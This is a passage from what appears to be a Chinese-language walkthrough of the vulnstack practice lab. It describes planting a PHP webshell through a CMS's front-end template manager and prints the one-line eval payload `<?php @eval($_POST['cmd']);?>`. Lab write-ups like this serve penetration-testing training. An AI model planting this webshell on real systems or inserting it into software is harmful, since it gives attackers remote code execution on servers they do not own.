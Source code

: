 <br>

## 2.写入webshell

点击前台模板->管理模板文件, 随后会显示前台的php模板文件

![image-20221013145639509](vulnstack靶场系列一/image-20221013145639509.png)		

![image-20221013145820329](vulnstack靶场系列一/image-20221013145820329.png)

<br>

点击右上角的新建按钮, 新建一个前台模板文件并写入webshell(`<?php @eval($_POST['cmd']);?>`), 随后点击创建
